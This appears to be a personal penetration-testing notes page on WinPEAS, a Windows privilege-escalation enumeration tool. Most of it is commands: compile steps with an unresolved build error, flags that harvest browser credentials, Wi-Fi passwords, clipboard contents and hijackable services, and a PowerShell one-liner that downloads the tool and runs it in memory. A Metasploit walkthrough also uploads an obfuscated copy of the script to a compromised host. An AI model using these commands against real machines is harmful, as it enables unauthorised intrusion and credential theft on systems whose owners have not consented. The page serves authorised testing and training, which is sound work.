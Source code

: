# WinPEAS

## 01 - Compile

Install a targeting pack

https://dotnet.microsoft.com/en-us/download/dotnet-framework/net481

Compile WinPEAS

TODO: figure it out how to manually compile WinPEAS in C#

```
C:\> git clone https://github.com/carlospolop/PEASS-ng.git

C:\> cd PEASS-ng\winPEAS\winPEASexe\winPEAS

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> copy Program.cs Program.cs.bak

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet new console --force

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet add package Microsoft.VisualStudio.UnitTesting --version 11.0.50727.1

C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> del Program.cs; move Program.cs.bak Program.cs
```

_**I'm still having an error**_

```
C:\PEASS-ng\winPEAS\winPEASexe\winPEAS> dotnet build -c Release -p:TargetFrameworkVersion=v4.8.1
```

## 02 - Manual

### 2.1 - Usage

It will display all of the results once executed.

```
C:\> winPEASx64.exe
```

Runs the enumeration tool but does not display the banner.

```
C:\> winPEASx64.exe quiet
```

Look for sensitive files.

```
C:\> winPEASx64.exe fileinfo
```

Enumerate web browser databases credentials.

```
C:\> winPEASx64.exe browserinfo
```

Find credentials on the Windows machine and check for [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/Shell Is The Beginning/03 - Privilege Escalation/Windows/Local Privilege Escalation/Registry/AlwaysInstallElevated/Manual|AlwaysInstallElevated]].

```
C:\> winPEASx64.exe windowscreds
```

Obtaining Wi-Fi passwords, credential manager and clipboard information using the command prompt commands.

```
C:\> winPEASx64.exe quiet cmd
```

Display the results that is related only to the user information.

```
C:\> winPEASx64.exe userinfo
```

Enumerate installed programs that we might look into.

```
C:\> winPEASx64.exe applicationsinfo
```

Enumerate to discover any insecure services that we can hijack.

```
C:\> winPEASx64.exe servicesinfo
```

Provide information related to the current running processes.

```
C:\> winPEASx64.exe processinfo
```

Discover networking information.

```
C:\> winPEASx64.exe networkinfo
```

Enumerating the whole system and find kernel vulnerabilities.

```
C:\> winPEASx64.exe systeminfo
```

Enumerate the system quickly yet it's gonna be noisy and might be a risk to OPSEC that does absorb some resources.

```
C:\> winPEASx64.exe quiet searchfast
```

Search everything on the system.

```
C:\> winPEASx64.exe quiet searchall
```

### 2.2 - Download and Execute

```powershell
$url = 'https://github.com/carlospolop/PEASS-ng/releases/download/20220821/winPEASx64.exe'

$wp = [System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

## 03 - Metasploit

```
$ sudo cp peass.rb /usr/share/metasploit-framework/modules/post/multi/gather/

$ sudo wget -O /usr/share/metasploit-framework/modules/post/multi/gather/peass.rb https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/metasploit/peass.rb

msf > reload_all

msf > use post/multi/gather/peass

msf post(multi/gather/peass) > options

Module options (post/multi/gather/peass):

   Name        Current Setting                              Required  Description
   ----        ---------------                              --------  -----------
   PARAMETERS                                               no        Parameters to pass to the script
   PASSWORD    w2ogatdfgsh1mcathikl7j39alk715q7             no        Password to encrypt and obfuscate the script (randomly generated). The length
                                                                      must be 32B. If no password is set, only base64 will be used.
   PEASS_URL   https://github.com/carlospolop/PEASS-ng/rel  yes       Path to the PEASS script. Accepted: http(s):// URL or absolute local path. Lin
               eases/latest/download/winPEASany_ofs.exe               peas: https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas
                                                                      .sh
   SESSION                                                  yes       The session to run this module on
   SRVHOST                                                  no        Set your metasploit instance IP if you want to download the PEASS script from
                                                                      here via http(s) instead of uploading it.
   SRVPORT     443                                          no        Port to download the PEASS script from using http(s) (only used if SRVHOST)
   SSL         true                                         no        Indicate if you want to communicate with https (only used if SRVHOST)
   SSLCert                                                  no        Path to a custom SSL certificate (default is randomly generated)
   TEMP_DIR                                                 no        Path to upload the obfuscated PEASS script inside the compromised machine. By
                                                                      default "C:\Windows\System32\spool\drivers\color" is used in Windows and "/tmp
                                                                      " in Unix.
   TIMEOUT     900                                          no        Timeout of the execution of the PEASS script (15min by default)
   URIPATH     /u6xm.txt                                    no        URI path to download the script from there (only used if SRVHOST)

msf post(multi/gather/peass) > advanced

Module advanced options (post/multi/gather/peass):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   ListenerBindAddress                   no        The specific IP address to bind to if different from SRVHOST
   ListenerBindPort                      no        The port to bind to if different from SRVPORT
   ListenerComm                          no        The specific communication channel to use for this service
   SSLCipher                             no        String for SSL cipher spec - "DHE-RSA-AES256-SHA" or "ADH"
   SSLCompression       false            no        Enable SSL/TLS-level compression
   SSLVersion           Auto             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Accepted: Aut
                                                   o, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   SendRobots           false            no        Return a robots.txt file if asked for one
   URIHOST                               no        Host to use in URI (useful for tunnels)
   URIPORT                               no        Port to use in URI (useful for tunnels)
   VERBOSE              false            no        Enable detailed status messages
   WORKSPACE                             no        Specify the workspace for this module

msf post(multi/gather/peass) > set peass_url http[s]://<IP>:<PORT>/winPEASx64.exe

msf post(multi/gather/peass) > set session <session_id>

msf post(multi/gather/peass) > run

[+] PEASS script successfully retrieved.
[*] Encrypting PEASS and encoding it in Base64...
[*] Uploading obfuscated peass to C:\Windows\System32\spool\drivers\color\1ecke...
[+] Uploaded
[*] Running PEASS...
..[snip]..

[+] PEASS output saved to: /root/.msf4/loot/20220515165546_default_10.0.2.15_PEASS_757580.txt
[*] Post module execution completed
```

---
## References

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

- [WinPEAS Metasploit Module](https://github.com/carlospolop/PEASS-ng/tree/master/metasploit)